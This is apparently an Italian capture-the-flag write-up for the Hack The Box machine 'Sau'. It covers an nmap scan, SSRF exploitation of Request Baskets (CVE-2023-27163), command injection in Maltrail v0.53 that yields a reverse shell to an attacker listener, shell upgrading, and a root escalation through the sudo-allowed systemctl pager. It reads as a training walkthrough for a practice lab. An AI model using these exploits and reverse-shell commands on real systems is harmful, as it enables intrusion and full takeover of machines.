 **TARGET:10.10.11.224

# INFORMATION GATHERING

Per prima cosa lanciamo un veloce scan con [Nmap](Note/Tool/Nmap.md)

```shell-session
┌──(kali㉿kali)-[~/htb/sau]
└─$ nmap -sT -sV -Pn 10.10.11.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-01 23:07 CET
Nmap scan report for 10.10.11.224
Host is up (0.044s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=12/1%Time=656A5918%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Fri,\x2001\x20Dec\
SF:x202023\x2022:07:34\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\
SF:"/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x
SF:20200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Fri,\x2001\x20Dec\
SF:x202023\x2022:07:35\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r
SF:\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti
SF:ons:\x20nosniff\r\nDate:\x20Fri,\x2001\x20Dec\x202023\x2022:08:01\x20GM
SF:T\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20
SF:name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}
SF:\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20
SF:close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.70 seconds
```

Uno scan competo su tutte le porte non ci da nessuna nuova informazione.

Ricapitolando abbiamo 2 porte aperte

- 22 ssh 
- 55555 unknown

la porta 80 e la 8338 risultano filtrate

# ENUMERATION

Visitiamo `10.10.11.224:55555`

![](../zzz_rev/attachments/sau.png)
Possiamo esplorare un po' lo strumento e capire che si tratta di un tipico contenitore di richieste, in cui crea un nuovo carrello e ti fornisce un token che puoi utilizzare per accedere al carrello in un secondo momento. Possiamo inoltre inviare richieste al nostro carrello e vedere anche i dati che arrivano, ma da esso non può essere generato alcun attacco particolare.
Non esiste nemmeno un pannello di amministrazione a cui possiamo provare ad accedere. Quindi, la prossima cosa che possiamo cercare è una vulnerabilità divulgata pubblicamente in questa applicazione che possiamo sfruttare.

Con una rapida ricerca su Google per “Request Basket exploits”, possiamo trovare [questo PoC per CVE-2023–27163](https://github.com/entr0pie/CVE-2023-27163) che sfrutta una vulnerabilità SSRF in Request Basket.

# GAINING AN INITIAL FOOTHOLD 

L'exploit è piuttosto semplice da eseguire, tutto ciò di cui abbiamo bisogno è l'IP di destinazione e il numero di porta insieme all'indirizzo a cui vogliamo reindirizzare la nostra richiesta internamente sul server attraverso la vulnerabilità SSRF.

```shell-session
┌──(kali㉿kali)-[~/htb/sau/CVE-2023-27163]
└─$ ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "cadgqa" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/cadgqa now makes the server request to http://127.0.0.1:80.
> Authorization: Ye9AiNbyPIQhFo1JFvXSKQpi5lqnG5Vic9V7aYkR9Mq8

```

Ora possiamo andare al carello appena creato

![](../zzz_rev/attachments/sau1.png)
Sembra che qualche altra applicazione chiamata Maltrail sia in esecuzione.
Sappiamo anche che la sua versione v0.53 è in esecuzione sul server.

Possiamo iniziare a cercare eventuali exploit associati che potrebbero aiutarci a ottenere una shell inversa.
Ancora una volta con una rapida ricerca su Google possiamo trovare un [exploit per Maltrail v0.53 Unuthenticated OS Command Inject](https://github.com/spookier/Maltrail-v0.53-Exploit)

Anche in questo caso l'exploit e relativamente semplice 
Il passo successivo è avviare nc

```shell-session
┌──(kali㉿kali)-[~/htb/sau]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
```

ed eseguire l'exploit Maltrail contro il carrello creato in precedneza.

```shell-session
┌──(kali㉿kali)-[~/htb/sau/Maltrail-v0.53-Exploit]
└─$ python3 exploit.py 10.10.14.48 1234  http://10.10.11.224:55555/cadgqa
Running exploit on http://10.10.11.224:55555/cadgqa/login
```

abbiamo cosi la nostra shell 

```shell-session
┌──(kali㉿kali)-[~/htb/sau]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.224] 60466
$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

facciamo un update della shell

```shell-session
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
puma@sau:/opt/maltrail$ ^Z
zsh: suspended  nc -nvlp 1234

┌──(kali㉿kali)-[~/htb/sau]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 1234

puma@sau:/opt/maltrail$ export SHELL=bash
puma@sau:/opt/maltrail$ export TERM=xterm-256color
puma@sau:/opt/maltrail$
```

e ci prendiamo la nostra user_flag

```shell-session
puma@sau:/opt/maltrail$ cat ~/user.txt
7da89e2a309434fcb286cfadac62f664
```

# PRIVESC

Come sempre una delle prime cosa da fare è vedere cosa possiamo eseguire con i privilegi di root

```shell-session
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$
```

Sembra che possiamo controllare lo stato di trail.service. Di solito, l'output di questi comandi viene elaborato tramite less e possiamo prendere riferimento da [GTFOBins]() per `less` e quindi accedere a root.

```shell-session
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Fri 2023-12-01 21:16:37 UTC; 1h 20min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 893 (python3)
      Tasks: 25 (limit: 4662)
     Memory: 49.8M
     CGroup: /system.slice/trail.service
             ├─ 893 /usr/bin/python3 server.py
             ├─1179 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed p>
             ├─1180 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed p>
             ├─1183 sh
             ├─1184 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1185 /bin/sh
             ├─1187 python3 -c import pty; pty.spawn("/bin/bash")
             ├─1188 /bin/bash
             ├─1210 sudo /usr/bin/systemctl status trail.service
             ├─1211 /usr/bin/systemctl status trail.service
             ├─1212 pager
             ├─1213 sh -c /bin/bash -c /bin/bash
             ├─1214 /bin/bash
             ├─1244 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed p>
!/bin/bash
root@sau:/opt/maltrail# id
uid=0(root) gid=0(root) groups=0(root)
```

e ci prendiamo la nostra root_flag

```shell-session
root@sau:/opt/maltrail# cat ~/root.txt
f2aceb5d6859460186c5403b1bfed871
```
